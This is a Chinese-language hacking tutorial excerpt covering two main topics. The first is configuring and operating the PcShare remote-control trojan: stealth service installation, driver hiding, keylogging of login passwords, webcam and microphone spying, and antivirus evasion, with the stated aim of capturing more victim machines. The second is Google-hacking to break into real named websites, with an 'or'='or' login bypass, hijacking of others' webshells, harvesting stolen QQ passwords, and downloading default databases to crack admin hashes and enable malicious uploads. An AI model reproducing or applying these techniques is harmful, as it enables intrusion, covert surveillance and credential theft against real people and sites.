> 中转文件上线线路：肉鸡<------->Web 空间中的 ip.txt<------->获得路由器 IP<------->路由器<------->控制端。

#### 3.4.3 第三种方法：内网建站专家

有些情况下，用户接入互联网的宽带并不一定是 ADSL，就算是 ADSL，也并不一定具有动态的公网 IP 地址，而很可能是私网 IP 地址，国内很多宽带服务商都是这样分配的。还有一些情况是用户的计算机处于小区宽带网中或者是在一个大型的企业内部网中，通过多重网关连接互联网。在这种环境下，通常使用动态域名服务是很难解决的。这时候就只有使用内网建站专家来帮忙了，如图 3.35，在不进行端口映射的情况下互联网上访问者照样可以访问内网中的各种网络资源，当然也完全可以实现肉鸡 PcShare 上线了。

使用内网建站专家的上线方式：

> 专用域名上线线路：肉鸡<------->内网建站域名<------->客户端特殊隧道<------->控制端。

中转文件上线线路：肉鸡<------->Web 空间中的 ip.txt<------->内网建站域名<------->客户端特殊隧道<------->控制端。

> **小提示：什么是内网建站**

内网建站是内网建站服务的简称。内网建站服务是针对内网私有 IP 用户的动态域名服务，区别于传统的动态域名服务。它无须公网 IP，也无须在出口网关（路由器）上设置端口映射，任意一台能访问公网的电脑都可以通过它向公网发布信息。

首先登录内网建站专家的网站（http://www.dnskeeper.net/），进入“内网建站”页面，点击“申请免费试用帐号”进入到注册页面，根据页面要求将内容填写完整，因为对方需要进行人工审核，所以我们填写的要向真的想试用他们的产品一样，如图 3.36。点击提交后，系统会提示我们当审核通过后，注册码会发送到邮箱中，所以我们在申请时填写的邮箱一定要正确，否则会收不到信的，如图 3.37。审核通过的话，一般在半个工作日内就能收到注册码了，我们打开邮箱，其中“00166MCU-1EA4G42D”就是域名的注册码，如图 3.38。返回到内网建站专家的网站，进入“客户端软件下载”的页面，下载内网建站服务客户端，如图 3.39。客户端的安装非常简单，一路点击 NEXT 就行了，客户端默认会建立一个服务用来支持内网建站专家。


打开安装好的内网建站专家，可以看到“当前用户”中的东西都是处于“未知”状态，如图3.40。在“开通用户服务”栏输入在邮件中获得的注册码，然后点击“开通”按钮，在注册码验证通过后就可以看到“当前用户”中的信息了，如图3.41。

我们切换到“域名设置”选项，先设置“在线设定”，选择“内网私有IP地址建站”，然后点击“应用”按钮就可以生效了，如图3.42。再切换到“离线设定”，设置当没有打开内网建站专家或者没有连入网络的时候该如何处理，一般情况下设置为“指定域名离线IP地址”为“127.0.0.1”即可，最后仍然是点击“应用”按钮使之生效，如图3.43。

此时内网专家便开始工作了，它会在状态栏上放置两个图标，右边那个是内外建站的管理程序，左边那个有点像 Windows2000 系统中的本地连接图标，其功能也是相似的，可以显示当前和外部网络的连接状态，如图3.44。

我在本地电脑中安装了 IIS 并放置了一个首页，来测试一下在外网中是否能够访问到，如图3.45。我也放置了一个比较大的文件让朋友进行下载测试，发现速度相当快。需要注意的是这款内网建站专家只支持 8080/8081/8082/8083/10000/10001/10002/10003 这些端口，所以如果你设置了其它端口的话是不能上线的。

另外每个内网建站服务账号可以获得同时100个连接数的支持，这里的同时连接数是指同一时间的最大响应数，比如用户对外提供的是网站，同时连接数是100个，则表示一秒左右的时间内能响应的最大请求数是100，超过这个限值的访问请求将不可以使用，直至连接数空闲。


通过内网建站服务所上线的肉鸡的IP地址都是显示为127.0.0.1，如图3.46。这是因为你是内网IP地址，肉鸡不能直接访问到你，肉鸡需要通过中继服务系统间接进行访问，其中真正从你的计算机上获取资源的是运行在你的计算机上的中继客户端，然后再由客户端传递给肉鸡。因此对于你而言实际上是自己访问自己，所以肉鸡的 IP 地址也自然都是你自己的 IP 地址了（127.0.0.1）。


图 3.45

### 3.5 PcShare 的其它配置

设置完通信连接参数后就需要配置一下新建服务的参数了，服务文件名称可以自定义填写，由字母和数字组成（不能有空格和非 ASCII 字符）。别人运行你配置的服务端后，将在 System32 目录下生成一个按照你配置的文件名称的 DLL 文件并以 Svchost 进程启动，在冰刃下无红色进程，可以穿越防火墙。我们可以按照默认设置生成，默认设置将会随机生成 8 字节的 dll 文件进行安装。服务显示名称也可以自定义填写，由字母和数字组成（不能有非 ASCII 字符）。别人运行你配置的服务端后，将会在服务列表中新增服务，显示名称为你填写的名称。在 Msconfig 中勾选隐藏所有 Microsoft 服务将不会显示 PcShare 新添的服务。服务端附加描述是对 PcShare 安装的服务所进行的描述，推荐对 Windows 的服务进行模仿模糊描述以达到最好的伪装效果，默认自动生成。


图 3.46

> **小知识：什么是服务**
>
> 在 Windows2000/XP/2003 系统中，服务是指执行指定系统功能的程序、例程或进程，以便支持其它程序，尤其是底层（接近硬件）程序。它是一种应用程序类型，在后台运行。服务应用程序通常可以在本地和通过网络为用户提供一些功能，例如客户端/服务器应用程序、Web 服务器、数据库服务器以及其他基于服务器的应用程序。

由于 PcShare 采用 DLL 注入进程工作，所以需要一个宿主进程，参数提供了选择插入 SVCHOST 还是默认浏览器的进程。在“特性参数设置”中可以设置肉鸡在线时的自带标示，默认为“计算机名”。可以设置肉鸡在线后所属的肉鸡分组，默认为“普通客户组”。可以设置是否启用“驱动隐藏”和“键盘监控”功能。启用驱动隐藏，勾选后将会在 Drivers 目录下生成和 PcShare 安装的 DLL 文件同名的 Sys 文件，对 PcShare 安装的 DLL 文件和通讯端口进行隐藏，默认不勾选。不勾选启用驱动隐藏的话，在服务端进行安装时在卡巴斯机 6 默认情况下无任何提示。启用键盘监控：勾选后将会对肉鸡的键盘操作进行全程监控，在离线情况下保存为文件，待上线后上传键盘操作。在线状态下可以及时记录键盘操作，默认不勾选。还可以设置是否在运行之后自动删除 EXE 文件，这样就不会留下任何痕迹了。

### 3.6 PcShare 远程使用

全部参数设置完毕后，点击“生成”按钮就可以保存生成的服务端了，然后就可以通过第一、二章所讲的抓鸡方法将服务端上传到肉鸡上运行，肉鸡就会乖乖的上线了。接下来我再介绍一下 PcShare 强大的功能，如图3.47。点击第一排“文件管理”图标或者双击肉鸡就可以进入到文件管理界面，如图3.48。


图3.47


图3.48

PcShare 可以远程管理肉鸡的文件，比如文件浏览、文件下载、文件删除、文件属性等，也可以创建目录、上传运行文件到指定目录、远程运行文件、下载文件或者目录到控制台。基本上 Windows 所具有的文件管理功能，PcShare 都能轻松做到。


图3.49


图3.50

点击“屏幕监控”图标可以对肉鸡进行桌面监视和控制界面，如图3.49。可以对肉鸡的屏幕进行监控和管理，PcShare 使用了独特的屏幕抓取和压缩技术，速度非常快，局域网操作时候，……


图3.51

点击“超级终端”图标就会进入CMD命令操作界面，如图3.50。自带的Windows Shell功能在被控制端禁止cmd.exe或者删除cmd.exe的情况下也能正常操作Shell。当返回信息满屏后可以按Ctrl+A，按Delete键清除信息。点编辑下的复制可以把返回信息复制到文件保存下来，以便以后查询。

点击“键盘监控”图标可以对肉鸡的键盘操作进行记录和管理，如图3.51。能够记录肉鸡日常的输入操作，可以记录英文和中文的字符操作，当被控制端系统登录时，能自动记录当前用户的帐号和密码，发送到控制台。

点击“进程管理”图标就会进入进程管理界面，可以对肉鸡当前存在的进程进行管理，比如浏览进程、终止进程等，连接成功后将会详细显示肉鸡的所有进程ID（包括隐藏进程）、线程数量、进程级别、执行文件，如图3.52。


图3.52

点击“注册表管理”图标可以远程对肉鸡的注册表进行操作，如图3.53，比如新建键值、删除键值、修改键值等一系列操作，点击左边注册表项前边的“+”号就会展开下面的项。


图3.53

点击“服务管理”图标就可以管理肉鸡系统的服务，有启动服务、删除服务、停止服务、禁用服务等服务管理功能。连接成功后将显示服务名称、描述、状态、启动类型、登录身份。在右下角会统计肉鸡所有服务数量。双击任意服务名称后，可以对该项服务进行详细查看和启动类型进行管理，启动类型可设置为自动、手动、禁止。选中任意服务后点右键可以对该服务进行启动、停止、删除和查看属性等操作。

点击“窗口管理”图标能够对被控制端当前存在的窗口进行管理，例如最大化窗口、最小化窗口、关闭窗口、隐藏窗口等进行操作。连接成功后将显示肉鸡开启窗口的窗口句柄、窗口标题和窗口进程。选中任意窗口可以对其进行最大化窗口、最小化窗口、隐藏窗口和关闭窗口等操作，如图3.55。

点击“音视频监控”图标可以对肉鸡进行语音视频进行监控，当肉鸡安装有摄像头和麦克风时，就能把肉鸡的摄像头内容和声音传送到控制台进行查看，如图3.56。点击“保存图像”可以把肉鸡的视频任意一面保存为单一的图片文件。单击“录像视频”按钮可以把肉鸡的视频录制为AVI视频文件。点击“开始录音”按钮可以把肉鸡的麦克风声音录制为文件并保存。

PcShare还提供了强大的右键操作功能，如图3.57。更改被控端注释：默认客户端注释为计算机名，为了便于管理可以自行修改；开启客户端代理，如图3.58，自带Socks代理功能，能够将被控制机器做为一台代理服务器，支持Socks4、Socks4a和Socks5协议；广播命令到肉鸡端又有五个子功能，如图3.59：肉鸡更新到新客户端，选中新的服务端后点击确定后将自动上传到肉鸡后自动运行；肉鸡执行指定上传程序，文件上传后运行模式有明显运行和隐藏运行两种模式；肉鸡下载执行指定连接，从网络上下载文件并调用默认程序打开，下载地址必须加“HTTP://”；发送指定信息到肉鸡端，发送消息到肉鸡有警告消息、提示信息、错误信息显示三种模式，消息不能超过250个汉字；强制肉鸡访问指定网页，让肉鸡的浏览器自动打开指定的网页，有正常打开和隐藏打开两种模式，如图3.60；重启被控端，无任何提示直接重启肉鸡；关闭被控端，无任何提示直接关闭肉鸡；卸载被控端……


被控端，卸载肉鸡运行的服务端，卸载后将不能再对肉鸡进行任何操作；转移客户到新分组，根据自己的需求可新建立一个分组并将对应的被控端转移到新分组，如图3.61。

希望 PcShare 强大的功能能够让大家抓到更多的肉鸡，学到更多的知识。如果大家配置的 PcShare 服务端经常被查杀的话，那就到黑客X档案的官方论坛（http://bbs.hackerxfiles.net）来，我们会不定期地针对 PcShare、灰鸽子或者其它远控木马进行免杀更新，以让大家尽情的抓肉鸡。


## 第四章 Google 和挖掘鸡呆助小菜入侵网站

经过前面一些内容的学习，大家对入侵主机都有了更深层次的认识吧。我们在浏览黑客网站的时候，有时会看到一些网站被入侵后的截图，比如被挂上了一个黑页、网页木马之类的，是不是感觉做到这些非常神秘，而入侵者也非常厉害呀？本章我就教给大家一些简单的网站入侵方法，让大家明白做到这些其实并不难。

### 4.1 搜索引擎的高级语法

诸如google、百度等搜索引擎应该是大家使用最频繁的工具了，遇到不懂的问题或者是想找什么网站，只需要输入关键字进行搜索就行了，那么大家可曾想过是否可以利用搜索引擎来入侵网站呢？要做到这一点，依赖的就是搜索引擎强大的搜索功能和搜索参数，它的学名叫做“Google Hack”。我们先来了解一下搜索引擎都有哪些强大的搜索参数。

> **小知识：什么叫Google Hack**

使用Google、Baidu等搜索引擎对某些特定的网络主机漏洞（通常是服务器上的脚本漏洞）进行搜索，以达到快速找到漏洞主机或特定主机的漏洞的目的。

- 1. intitle语法

intitle语法可以搜索网页的标题名中是否包含有指定的字符串，比如当Discuz论坛爆出漏洞的时候，大家都会一窝蜂地去寻找使用Discuz搭建的论坛，如果只在搜索引擎中输入“Discuz”的话，搜索出来的结果大部分都和我们的初衷相悖，如图4.1。不知大家有没有注意到，在访问一个Discuz搭建的论坛时，IE标题栏是不是有“Powered by Discuz!”的字样，这就是Discuz在代码中保留的版权信息。我们可以利用这个特征再结合搜索引擎的intitle语法来检索在标题中包含有“Powered by Discuz!”字样的站点，只需要在搜索引擎中输入“intitle:Powered by Discuz!”即可，这样搜索出来的站点基本上都是使用Discuz搭建的论坛了，如图4.2。


## 2、inurl语法

inurl语法可以搜索URL网址中包含有指定字符串的网址，比如我们想查找域名中包含“zbvc”字样的站点，当直接在搜索引擎中输入“zbvc”的时候，搜索到的相当一部分信息是没有用处的，如图4.3。而使用“inurl”语法却可以帮助我们找到和“zbvc”字符有关的域名地址了，在搜索引擎中输入“inurl:zbvc”便可以找到很多有用的信息，如图4.4。更精确的用法是“allinurl”，这个语法就留给大家去体验吧。


图4.3


图4.4

## 3、site语法

site语法可以搜索特定的域名信息，比如我们想搜索日本站点的话只需要在搜索引擎中输入“site:jp”，列出来的搜索结果基本上都是日本站点，如图4.5。也可以用来搜索一个域名下的所有页面，比如在搜索引擎中输入“site:zbvc.cn”，就可以得到“zbvc.cn”这个域名下的所有页面，如图4.6，如果存在二级或者三级域名的话，也能搜索出来的。我们还可以搭配其它关键字用来搜索一个域名下的特定关键字，比如在搜索引擎中输入“site:zbvc.cn 后台”，就可以搜索“zbvc.cn”这个域名下的网页中存在“后台”字符的页面，如图4.7，使用这种方式来搜索一个网站的后台地址还是相当不错的，如图4.8，也可以搭配其它的关键字来搜索其它页面。

## 4、filetype语法

filetype语法可以搜索出特定后缀名的文件，比如搜索关键字为“admin”的WORD文档（后缀名：DOC），只需要在搜索引擎中输入“filetype:doc admin”，就可以搜索到论文或者特定的文档了，如图4.9。上面介绍的这些搜索引擎语法可以单独使用，也可以多个语法组合在一起使用，比如可以在搜索引擎中输入“site:zbvc.cn filetype:asp”，就可以搜索出“zbvc.cn”域名下的 ASP 页面，如图4.10。通过搜索引擎我们可以获得大量的有用数据，关键是要如何运用它们，想灵活运用搜索引擎不是一天两天就能学会的，它需要灵活运用，活学活用，不拘泥于搜索引擎语法的束缚。送给大家一款不错的 Google-Hack 工具，如图4.11，它可以帮助我们更好地了解搜索引擎，找到自己想要的东西。


图4.5


图4.9


图4.10


图4.11

### 4.2 利用搜索引擎入侵网站

搜索引擎不光能搜索出想要查询的信息，还能够查找漏洞、入侵网站呢！不要小看搜索引擎的威力，接下来我就介绍一下如何利用搜索引擎来入侵网站。

根据某黑客站点上公布的漏洞信息，比如说某套网站程序由于后台登录验证不严密，导致恶意用户可以随意登录后台管理系统，这时候我们就应该考虑，如何从一套网站程序的漏洞寻找出使用这套网站程序的站点。我们可以寻找出这套网站代码所特有的关键字，然后使用搜索引擎的强大高级语法来寻找出使用这套网站程序的站点。


获得这套程序的特有关键字的方法就是看标题上存在“申请会员有什么好处？”字样，我们打开百度，先输入“申请会员有什么好处？”看看搜索出来的结果是否能够精准地扫描到使用这套程序的站点；如果存在大量混淆站点的话，利用前面介绍的搜索引擎高级语法中的`intitle`语法，可以尝试使用`intitle:申请会员有什么好处？`来更加精准地搜索，如图4.12。


随意打开搜索出的一个站点看看，主要是确认一下是否为想要找的那套程序所搭建的站点，检查一番过后，发现这个站点正是寻找的对象，如图4.13。这套程序的后台地址为`admin/login.asp`，由于这套程序不是在网站的根目录，而是在`/shop2/`这个目录下的（根目录就是指逻辑驱动器的最上一级目录，它是相对于子目录来说的，但是在网站中实际存在的是绝对路径和相对路径），所以它的后台地址就是`http://www.heat-cogen.com/shop2/admin/login.asp`，如图4.14。这套程序由于是对输入的帐号和密码验证不严密而产生的漏洞，也就是所谓的OR弱口令漏洞，所以我们只需在管理员帐号和密码中都输入`'or'='or'`（这是因为过滤单引号直接带入数据库查询导致的），就这样轻松地进入网站的后台管理系统了，如图4.15。

### 小知识：什么叫绝对路径和相对路径

绝对路径：大家都知道，在平时使用计算机的时候要找到需要的文件就必须知道文件的位置，而表示文件的位置的方式就是路径，例如只要看到“D:\图片\许慧欣.jpg”这个路径，就会知道“许慧欣.jpg”这个文件是存放在D盘的“图片”目录中。类似于这样完整的描述文件位置的路径就是绝对路径。

相对路径：给出一个URL地址：http://54abu.cn/casper/mm.jpg。http://54abu.cn/就可以看作是一个根目录，相对路径是相对谁呢？就是相对这个根目录而言的！所以mm.jpg的相对路径就为/casper/mm.jpg。大家可能看到了我在mm.jpg的相对路径中开头为“/”，为什么呢？因为“/”就代表了根目录。


图4.12


图4.13


图4.14

可以看到左面列出的网站管理菜单，就在网站留下一个存在漏洞的提示吧。点击左面的“新闻发布”功能，输入一些提示性的语句，提示站长来修补这个漏洞，如图4.16，点击“添加”按钮就可以发布出去了，回到网站的前台就可以看到刚才添加的“新闻”了，如图4.17。

### 小知识：什么叫前台和后台

网站前台和网站后台通常是相对于动态网站而言，也就是说网站是基于数据库开发的网站。基于数据库开发的网站，一般分网站前台和网站后台。网站前台是面向网站访问用户的，通俗地说也就是给访问网站的访问者看的内容和页面，网站前台访问者可以浏览公开发布的内容，如产品信息、新闻信息、企业介绍、提交留言等操作。网站后台，有时也称为网站管理后台，是指用于管理网站前台的一系列操作，如产品、企业信息的增加、更新、删除等。通过网站管理后台，可以有效地管理网站供浏览者查阅的信息。网站的后台通常需要帐号及密码等信息的登录验证，登录信息正确验证后则进入网站后台的管理界面进行相关的一系列操作。

## 4.3 利用搜索引擎捡WebShell

搜索引擎除了能帮助我们寻找到存在漏洞的网站外，还能利用关键字寻找到WebShell呢，因为WebShell的登录页面大多都会有一些特殊的关键字，所以只需要找到个别WebShell的特殊关键字就可以使用搜索引擎把它们都给搜索出来，不过有的WebShell是需要密码的，如果猜不出密码的话，即使知道了WebShell的地址也照样干着急登录不进去，所以我们要寻找那些没有密码验证的WebShell中的关键字。


图4.17

### 小知识：什么叫WebShell

顾名思义，“Web”的含义显然需要服务器开放Web服务；“Shell”的含义是取得对服务器某种程度的操作权限。WebShell常常被称为通过网站端口对网站服务器的某种程度的操作权限。由于WebShell大多是以动态脚本的形式出现的，也有人称之为网站的后门。WebShell可以穿越服务器防火墙，由于与被控制的服务器或远程主机交换的数据都是通过80端口传递的，因此不会被防火墙拦截，并且使用WebShell一般不会在系统日志中留下记录，只会在网站的Web日志中留下一些数据提交记录，没有经验的管理员是很难看出入侵痕迹的。

比如大家经常使用的“网站小助手”就是一款没有密码验证的小马，它的作用就是往网站写入文件，可以写入功能更强大的WebShell。它的关键字就是在标题栏会有“网站小助手”等字样，而且它保存的文件名通常为“diy.asp”或者“newmm.asp”等。

打开百度，为了得到更多的搜索结果，我们在搜索框中输入`inurl:diy.asp`，如图4.18，在搜索结果中找到了一个标题为“旁注－网站小助手”的，基本上就可以确定这个站点曾经被入侵过，而且被放置了网站小助手，我们就可以顺手牵羊拿下这个 WebShell 了。

打开这个 WebShell 的链接，可以看到网站小助手给出了它自身在网站服务器中的绝对路径，如图4.19。如果我们想写入一个新的文件则需要两个参数：一个是写什么，在“输入内容”的空白框中输入想写入的内容即可。另一个是往哪里写，在“输入路径”中填入新文件在网站服务器中的绝对路径即可，可以参照上面的网站小助手自身的绝对路径填写。我们就简单点写上几个字提示网站被入侵了，要将文件保存为网站根目录下的 index.htm，其完整路径为“G:\www\www.mtk114.com\index.htm”，写完内容后，点击“西天取经”便可以将这两个参数提交上去，如图4.20。当网站小助手返回了“成功啦！ :)”的提示就表示文件已经成功写入了，如图4.21。打开网站的首页就可以看到挂上去的提示页面了，如图4.22，这个网站就这样被我们“黑”掉了。


图4.18


图4.21


图4.19


图4.20

## 4.4 利用挖掘鸡挖出 QQ 信封

大家已经领略到搜索引擎的强大了吧，不过由于搜索出来的数据量太大太繁杂，如果单凭手工整理的话，只会有两个结果：累死或者搜索不到多少东西。这个时候，我们就可以使用“挖掘鸡”来帮忙了，它就像挖掘机一样将搜索引擎中的有用的东西轻松挖出来，最重要的是它可以将挖的过程程序化、自动化，不再需用你手工一个个的整理。

### 小知识：什么是挖掘鸡

一些黑客及黑客软件（包括网站管理员及管理员工具）会在网站生成特定路径（目录名+文件名），这些路径往往有习惯性及默认性。这样的路径在网络中孤立无链接，通过搜索引擎很难直接搜索到。挖掘鸡就是针对这样的路径进行扫描来获取敏感信息或 WebShell 等权限。比如常用的注入工具默认上传的木马文件名：明小子旁注工具在网站的“/”或“/bbs/”目录下默认上传 div.asp，其内容为简单的上传 Shell，密码为空。


挖掘鸡的使用很简单，不过因为有些后缀存在较少，长时间挖不到结果，所以寻找特定的关键字和后缀是挖出好东西的关键所在。其实挖掘鸡还可以用来挖 QQ 信封，因为一些盗 QQ 的工具都使用了 ASP 发信方式，会在网站空间生成一个特定的 TXT 文本文档。如果放 QQ 木马的人没有修改用来接收 QQ 号和 QQ 密码的 ASP 文件，那么就肯定会生成这些常见的 QQ 密码信封文件，可以使用挖掘鸡搭配这些常见的 QQ 密码信封文件名挖到很多 QQ 信封。

### 小知识：什么叫QQ信封

这是在QQ黑市中对用于保存QQ密码的文件的一种别称，他们将用于接收QQ密码信息的ASP文件叫做QQ箱子。其实真正的盗取QQ的流程是：用户执行QQ木马之后就开始记录用户输入的QQ密码，然后QQ木马会将QQ号和QQ密码当作ASP接收文件的参数提交给在网站空间准备接收的ASP脚本文件，ASP在接收到QQ号和QQ密码后就追加到一个用于保存QQ号和密码的TXT文本当中，最后就是放马的人访问这个TXT文本文件收取QQ号和密码了。

常见的 QQ 密码信封文件名如下，如图4.23：

- 1. 阿拉QQ大盗在网站“/”下默认上传 tmdqq.asp，用于接收密码信息并保存到同路径的 qq.txt 中。


图4.23


图4.24

- 2、金狐QQ2007大盗在网站“/”下默认上传qq.asp，用于接收密码信息并保存到同路径的qq.txt中。
- 3、阿童木QQ终结者在网站“/”下默认上传qq2007.asp，用于接收密码信息并保存到同路径的qq2007.txt中。
- 4、VVQQ大盗在网站“/”下默认上传vv.asp，但是它用于接收密码信息的文件是动态生成的，但是还有一部分特征，那就是QQPass.txt。

我们来对比一下，分别使用手工和挖掘鸡看哪种方式能够挖到更多的QQ信封。就以QQ密码信封文件名为“qq.txt”来演示手工挖QQ信封，在搜索引擎中输入“inurl:qq.txt”，这句话的意思大家都应该明白了吧，它可以搜索URL地址中含有qq.txt字符的信息，如图4.24，搜索引擎返回了35个结果，可以看到里面有很多混淆信息，但还是有一些成果的，如图4.25。

下面再使用挖掘鸡来演示如何自动化挖QQ信封，打开挖掘鸡V1.1（个人感觉1.1版本的速度比较快，比较好用），在其中已经自带了很多的后缀名。


图4.25

由于要搜索特定的QQ信封文件名，所以点击“添加后缀”按钮，输入刚才分析得到的QQ信封文件名，其中“/”就是根目录的意思，如图4.26。在“关键词”处添加在搜索引擎中搜索的关键词，这些关键词的选择都是根据实践慢慢摸索出来的，只要使用这个关键词能够找出下面的文件的就是好的关键词。例如使用“inurl:qq.txt”就可以找到URL中有qq.txt的链接，从而找到接收密码信的地址。


图4.26


图4.27


图4.28

大家可以根据自身的网络情况做适当的调整，一般保持默认就可以。点击“开始”按钮就开始挖了，在扫描过程中，还可以监视扫描的进程，切换到“检测进程”选项，从这里可以看到当前正在扫描的进程列表，如图4.27。坐下来，泡杯茶，找个MM聊上一会儿再回来看扫描结果，如图4.28，才一会儿的工夫就获得了这么多的QQ信封，这个方法比手工挖QQ信封要方便高效的多吧。只需要在URL链接上双击一下，就可以打开这个QQ信封，如图4.29，不少的QQ密码吧。

## 4.5 利用挖掘鸡来寻找数据库

挖掘鸡除了可以挖QQ默认收信地址外还有其它的功能，它还可以挖掘默认数据库、常见的漏洞地址、WEBSHELL、注入点、敏感信息、上传漏洞地址、网游箱子地址、一句话后门地址等。总之只有你想不到，没有你挖不到的。


图4.29

现在网上有很多免费的网站源码，建立网站的门槛已经低了很多，但这其中也肯定存在一些对其不是很懂的小菜们。如果他们使用了免费的网站代码建立了自己的站点，而没有把数据库的默认地址改掉的话，我们就可以使用挖掘鸡挖到这些默认的数据库。

打开挖掘鸡的最新版本，在最新的版本中作者收集了很多默认的数据库地址，可以从图4.30中看到挖掘鸡能挖到的东西还真不少啊。关键词就是让搜索引擎从哪类的网站中查找，如果想不到独特的关键词则按照程序默认的“{自动产生}”，让挖掘鸡随机产生关键词。

扫描模式有“高速模式”和“精准模式”可以选择。高速模式会产生更多结果，但准确性会降低，需要手工验证。精准模式要处理重定向等信息，速度稍慢，精确性大大提高，但结果可能会不必要的减少。

在新版中提出了分组的概念，可以添加各种能够挖到的资源。那么什么是路径组呢？我来举个例子，比如知道一款网站代码的默认数据库地址为“/data/website.mdb”，那么其路径组就是“/data/”。有时候网站一套网站代码可能不在根目录下，比如上面提到的这套代码的完整地址为“http://54abu.cn/web/”，那么路径组就应该是“/web/data/”，为了解决这个问题挖掘鸡可以设置多个路径组。“文件名”就是低版本中所指的后缀名。“特征字串”的意思就是在“文件名”中的特征字符。如果感觉挖掘鸡作者给大家准备的资源不是很丰富或者你所挖的资源比较特殊的话，可以自己添加资源。在下侧的空白处点击右键选择“添加”就可以添加一个新的资源分类，然后再在添加的这个分类上点击右键选择“添加”便可以添加一个自定义资源，如图4.31，点击添加的“新分类”“新后缀”和“/”便可以修改里面的内容了，如图4.32。


图4.30


图4.31


图4.32


图4.33

由于我们是挖默认的数据库，所以就把整个数据库分类全部选中，如图4.33，基本上就没有什么数据库能逃得过挖掘鸡的魔爪了。切换到“高级选项”，在这里可以设置一些过滤信息，比如可以过滤一些域名信息（taobao.com的默认地址肯定没有）、设置屏蔽特征码（防止对方自定义404页面）、自动种植木马（遇到网站小助手的时候）、手动添加扫描地址（可以对扫描地址进行自定义），如图4.34。将多级域名、排名靠后的网站忽略掉，设置……

## 第四章 Google 和挖掘鸡来助小菜入侵网站

代理服务器来提高扫描速度。还可以设置关键词进程数、关键词相似度、缓存等信息。

全部设置完毕后，就可以点击右上角的“=>”开始扫描了，现在我们就可以从QQ里拖出个MM狂侃一顿，当你口干舌燥的时候就可以回来看扫描结果了。切换到“扫描结果”选项，在左面列出的就是这段时间里扫描出来的结果了，如图4.35。可以直接在URL连接上点右键选择使用IE打开进行下载，也可以把整个列表都导出来慢慢检测。

| 默认数据库路径 | 说明 |
|---|---|
| /data/MeskyDMS_Data.mdb | 动感下载系统(MeskyDMS) |
| /FooSun_Data/FooSun_Data.mdb | 风讯网站管理系统 |
| /FooSun_Data/FS400.mdb | 风讯 FoosunCMSv4.0 |
| /KS_Data/KesionCMS4.mdb | 科汛 CMS 默认数据库 |
| /database/BBSXP2007.mdb | BBSXP2007 默认数据库 |
| /database/BBSXP.mdb | BBSXP 论坛默认数据库 |
| /data/Dxbbs7.mdb | dxbbs 论坛默认数据库 |
| /data/dvbbs7.mdb | 动网论坛默认数据库 |
| /data/leadbbs.mdb | LeadBBS论坛默认数据库 |
| /data/Joekoe_CMS_4.0.mdb | Joekoe CMS 4.0 |
| /data/music.mdb | 心动音乐默认数据库 |
| /database/#ncms.mdb | Ncms 默认数据库 |
| /database/#newasp.asa | 新云网站系统 |
| /shopxp_data/data.mdb | shopxp购物系统 |
| /database/powereasy5.mdb | 动易网站管理系统2005 |
| /database/powereasy2006.mdb | 动易网站管理系统2006 |

### 4.6 如何利用默认数据库入侵

一个数据库就是一个动态网站的核心，在数据库里通常会保存着网站后台管理员的账号和密码等信息，然后就可以使用管理员账号和密码登录网站的管理后台，尝试上传WebShell以拿到整个网站的生杀大权。eWebEditor在很多的网站管理系统中都有使用，但是由于设计人员没有考虑这套程序的安全性，没有修改它的默认数据库地址。它的默认数据库地址一般为“eWebEditor/db/eWebEditor.mdb”，可以搭配挖掘鸡使用“inurl:eWebEditor”关键字，就能挖到不少的eWebEditor默认数据库。

> **小知识：什么是eWebEditor**

eWebEditor 是基于浏览器的、所见即所得的在线HTML编辑器，它能够在网页上实现许多桌面编辑软件（比如Word）所具有的强大可视编辑功能。WEB开发人员可以用它把传统的多行文本输入框 `<TEXTAREA>` 替换为可视化的富文本输入框，使最终用户可以可视化地发布HTML格式的网页内容。

在使用挖掘鸡挖到 eWebEditor 的默认数据库后，双击 URL 地址便可以将数据库下载到本地，如图4.36。如果你在本地电脑中安装有 ACCESS 的话，可以使用它打开数据库。如果没有安装的话，可以使用“佳林老兵”的“数据库管理助手”，点击“连接”选择“ACCESS 文件”，选择刚才下载回来的 eWebEditor 数据库，点击“连接”按钮即可打开，如图4.37。

成功打开后，左侧显示的是默认数据库的数据表，当前有四个表。点击左侧的“eWebEditor_System”数据表便可以打开它，在右侧便显示了这个表中所有字段，如图4.38，例如“sys_UserName”、“sys_UserPass”等，这两个字段分别代表管理员的帐号和密码，大家有没有看到管理员的帐号和密码是不是特别的奇怪呢，而且帐号和密码都是一致的。

eWebEditor 在设计的时候也考虑到了安全性，将管理员的帐号的密码都使用 MD5 算法加密了，所以就显示这个样子了。

> **小知识：是什么MD5**

所谓MD5，即 Message—Digest Algorithm 5（信息－摘要算法），它是由MD2、MD3、MD4发展而来的一种单向函数算法（也就是HASH算法），是国际著名的公钥加密算法标准RSA的第一设计者R. Rivest于上个世纪90年代初开发出来的，MD5的最大作用在于将不同格式的大容量文件信息在用数字签名软件来签署私人密钥前压缩成一种保密的格式，关键之处在于这种压缩是不可逆的。

我们要如何破解MD5密码呢？说实话很难，非常难。那么难道就没有办法了吗？方法当然也有，可以通过一些收集MD5加密值的网站来对比破解，其实也就是暴力破解，查看所破解的密码是否在这个站点的数据库当中。我们打开“www.cmd5.com”这个网站，在网页中输入刚才查询得到的管理员的加密后的MD5值（7a57a5a743894a0e），点击后边的“MD5加密或解密”就可以查询了，如果这个MD5值所对应的原始值在数据库中的话，立马就可以显示出来了，如图4.39。

由于管理员的帐号和密码的 MD5 加密值都是“7a57a5a743894a0e”，在网站查询解密后为“admin”，也就是说 eWebEditor 后台管理员的帐号和密码都为“admin”了。那么下一步就是寻找 eWebEditor 的后台登录地址，推荐大家到 eWebEditor 的官方网站下载一套完整的代码就可以得到了，其后台地址为“eWebEditor/admin_login.asp”，如图4.40，使用帐号和密码都是“admin”就可以登录进入后台了，如图4.41。

点击左侧的“样式管理”菜单，就会列出当前所有保存的样式列表，如图4.42，我们随便找一个样式，比如就拿“standart”这个当靶子了。点击“设置”进入样式的设置界面，在图片类型中加入“asa”后缀名，注意和其它后缀之间的分隔符，点击“提交”就可以保存修改了，如图4.43。这样就可以设置这个样式可以上传后缀名为 asa 的文件，其实 asa 和 asp 后缀的文件都是由 asp.dll 文件所解析的，也就可以说 asa=asp。

程序会给出修改成功的提示，如图4.44，点击“返回样式管理”返回。

